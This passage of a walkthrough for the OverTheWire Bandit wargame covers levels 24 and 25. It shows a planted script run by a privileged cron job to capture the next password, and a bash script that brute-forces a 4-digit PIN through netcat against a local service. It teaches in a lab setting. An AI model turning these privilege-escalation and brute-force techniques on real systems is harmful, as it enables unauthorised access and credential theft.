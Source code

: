 ```bash
bandit23@bandit:/var/spool/bandit24$ chmod 777 /tmp/dirfortest/script.sh
```

Now that we gave it all the permissions possible we just need to copy it to `/var/spool/bandit24` and wait for it to be ran.

```bash
bandit23@bandit:/var/spool/bandit24$ cat /tmp/dirforcron/pass
cat: /tmp/dirforcron/pass: No such file or directory
bandit23@bandit:/var/spool/bandit24$ cat /tmp/dirforcron/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Success!!! Let's go onto the next one.

## <a id="level-25"></a> [Level 25](http://overthewire.org/wargames/bandit/bandit25.html)


>A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

First let's try to connect and see what it prints. We will use netcat to connect as before.

```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
(...jibberish...)
Wrong! Please enter the correct current password. Try again.
^C
```

So it expects the password and the pin code in a line separated by a space. You can use your preferred scripting language to try and bruteforce this. I'll use bash since it doesn't depend on anything being preinstalled in the system (besides bash of course).

```bash
#!/bin/bash
rm input1.txt
rm input2.txt
rm output.txt

touch output.txt
touch input.txt
for i in {0000..5000}
do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> input1.txt
done

for i in {5001..9999}
do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> input2.txt
done

echo "input created will start nc connection"

cat input1.txt | nc localhost 30002 >> output.txt
cat input2.txt | nc localhost 30002 >> output.txt

cat output.txt | grep -v Wrong
```
